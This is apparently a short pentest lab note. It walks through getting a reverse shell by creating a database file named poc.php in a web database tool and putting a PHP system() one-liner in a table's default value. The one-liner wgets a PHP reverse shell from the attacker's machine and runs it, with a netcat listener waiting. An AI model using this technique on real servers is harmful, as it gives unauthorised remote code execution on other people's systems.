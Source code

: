 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Video Walkthrough
https://www.youtube.com/watch?v=mHsMCfg_KQw

#### reverse shell

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.txt
```

edit file to host and ip.

Create a new Database poc.php

![[Pasted image 20221108115012.png]]

![[Pasted image 20221108115033.png]]

Create a new table:

![[Pasted image 20220616154316.png]]

Paste the following php code in the "Default Value" textbox.
```bash - kali
<?php system("wget $KALI:80/Shelly.txt -O /tmp/Shelly.php; php /tmp/Shelly.php"); ?>
```

![[Pasted image 20221108115110.png]]

Below, we can see our table was created in `/usr/local/databases/poc.php`

![[Pasted image 20221115132603.png]]

Now we set up our python server.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

set up your netcat listener

![[rlwrap]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
